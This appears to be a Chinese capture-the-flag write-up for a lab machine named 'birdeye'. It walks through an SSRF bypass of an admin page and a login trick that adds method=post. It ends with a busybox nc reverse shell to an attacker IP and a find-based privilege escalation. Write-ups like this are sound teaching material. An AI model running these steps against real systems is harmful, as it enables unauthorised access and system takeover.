






# birdeye
先漏洞扫描

大致查看80端口使一个shop,有搜索功能和反馈
反馈功能没响应,搜索没注入出来
在扫一下目录
扫出来了/admin,但是没有权限
其他只发现了疑似ssrf的功能点
http://192.168.56.115/api/fetch-url?url=http%3A%2F%2Flocalhost%3A5000%2Fapi%2Fproducts%2F%3Fsearch%3D%221%22
向尝试访问http://localhost:5000/admin,还是不行
实在是没有思路了,发现admin目录下居然还有config,dashboard(信息收集还是不够足)

此时使用http://192.168.56.115/api/fetch-url?url=http://localhost:5000/admin/config
即可绕过权限检查获取配置

访问登录
http://192.168.56.115/api/fetch-url?url=http://localhost:5000/admin/panelloginpage
但是在登录框中输入也无法登录
原因理解:http://192.168.56.115/api/fetch-url是用来获取页面的,用户密码的请求参数的url是GET方式,而不是对http://localhost:5000/admin/panelloginpage的POST请求(也就是说此url不会接收到任何参数),所以造成输入什么也没有反应,因此我们需要将参数使其正确传递到后者
看了下解法在参数后在加上method=post,此时fetch-url则会使用body中的参数对登录页面发起正确请求

带上获取到的认证,访问http://192.168.56.115/admin/dashboard,直接rce

```
busybox nc 192.168.56.108 5555 -e /bin/bash
```

直接获取sev的shell
最后直接find提权

```
find . -exec /bin/sh \; -quit
```

